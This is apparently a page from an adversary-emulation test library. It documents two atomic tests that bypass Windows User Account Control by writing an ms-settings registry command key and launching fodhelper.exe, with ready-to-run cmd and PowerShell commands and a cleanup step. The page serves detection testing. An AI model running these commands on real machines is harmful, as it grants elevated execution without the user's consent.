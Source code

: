 ## Atomic Test #3 - Bypass UAC using Fodhelper

Bypasses User Account Control using the Windows 10 Features on Demand Helper (fodhelper.exe). Requires Windows 10.
Upon execution, "The operation completed successfully." will be shown twice and command prompt will be opened.

**Supported Platforms:** Windows

**auto_generated_guid:** 58f641ea-12e3-499a-b684-44dee46bd182

#### Inputs:

| Name              | Description                       | Type | Default Value                           |
| ----------------- | --------------------------------- | ---- | --------------------------------------- |
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe |

#### Attack Commands: Run with `command_prompt`!

```cmd
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "#{executable_binary}" /f
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute" /f
fodhelper.exe
```

#### Cleanup Commands:

```cmd
reg.exe delete hkcu\software\classes\ms-settings /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #4 - Bypass UAC using Fodhelper - PowerShell

PowerShell code to bypass User Account Control using the Windows 10 Features on Demand Helper (fodhelper.exe). Requires Windows 10.
Upon execution command prompt will be opened.

**Supported Platforms:** Windows

**auto_generated_guid:** 3f627297-6c38-4e7d-a278-fc2563eaaeaa

#### Inputs:

| Name              | Description                       | Type | Default Value                           |
| ----------------- | --------------------------------- | ---- | --------------------------------------- |
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe |

#### Attack Commands: Run with `powershell`!

```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"
```
